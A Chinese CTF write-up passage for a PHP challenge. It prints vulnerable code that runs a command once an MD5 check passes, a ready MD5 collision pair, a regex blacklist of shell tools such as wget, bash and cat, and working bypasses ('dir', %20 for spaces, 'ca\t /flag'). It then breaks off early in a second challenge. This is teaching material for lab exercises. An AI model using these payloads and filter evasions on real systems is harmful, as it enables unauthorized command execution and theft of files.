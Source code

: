 关键代码：

```php
if ((string)$_POST['a'] !== (string)$_POST['b'] && md5($_POST['a']) === md5($_POST['b'])) {
        echo `$cmd`;
    } else {
        echo ("md5 is funny ~");
    }
```

有一个MD5强绕过：

```
a=%4d%c9%68%ff%0e%e3%5c%20%95%72%d4%77%7b%72%15%87%d3%6f%a7%b2%1b%dc%56%b7%4a%3d%c0%78%3e%7b%95%18%af%bf%a2%00%a8%28%4b%f3%6e%8e%4b%55%b3%5f%42%75%93%d8%49%67%6d%a0%d1%55%5d%83%60%fb%5f%07%fe%a2

&b=%4d%c9%68%ff%0e%e3%5c%20%95%72%d4%77%7b%72%15%87%d3%6f%a7%b2%1b%dc%56%b7%4a%3d%c0%78%3e%7b%95%18%af%bf%a2%02%a8%28%4b%f3%6e%8e%4b%55%b3%5f%42%75%93%d8%49%67%6d%a0%d1%d5%5d%83%60%fb%5f%07%fe%a2
```

然后还有一个命令执行过滤：

```php
if (preg_match("/ls|bash|tac|nl|more|less|head|wget|tail|vi|cat|od|grep|sed|bzmore|bzless|pcre|paste|diff|file|echo|sh|\'|\"|\`|;|,|\*|\?|\\|\\\\|\n|\t|\r|\xA0|\{|\}|\(|\)|\&[^\d]|@|\||\\$|\[|\]|{|}|\(|\)|-|<|>/i", $cmd)) {
    echo("forbid ~");
    echo "<br>";
```

虽然过滤了 ``ls`` 但我们还可以使用 ``dir`` 来查看目录：

[![2aGT8s.png](https://z3.ax1x.com/2021/06/06/2aGT8s.png)](https://imgtu.com/i/2aGT8s)

没有发现flag，去访问根目录，这里过滤了空格，我们使用 ``%20`` 来绕过:

[![2aGvaF.png](https://z3.ax1x.com/2021/06/06/2aGvaF.png)](https://imgtu.com/i/2aGvaF)

发现flag，但是 cat 被过滤了，我们可以采用 ``ca\t%20/flag`` 来绕过。

[![2aGHvq.png](https://z3.ax1x.com/2021/06/06/2aGHvq.png)](https://imgtu.com/i/2aGHvq)

``ca\t`` 后面的 ``\t`` 会成为 TAB 而绕过。

还可以使用 ``sort`` 命令，sort 将文件的每一行作为一个单位，相互比较，比较原则是从首字符向后，依次按 ASCII 码值进行比较，最后将它们按升序输出。

### [网鼎杯 2020 朱雀组]phpweb

#### 知识点

+ PHP函数的使用。
+ PHP序列化和反序列化

#### 解题

打开网页后，发现网页每隔一段时间会自动刷新一下，且网页上显示一段 warning信息，并提示了 data() 函数。

抓包看一下：

[![2aNgJg.png](https://z3.ax1x.com/2021/06/06/2aNgJg.png)](https://imgtu.com/i/2aNgJg)
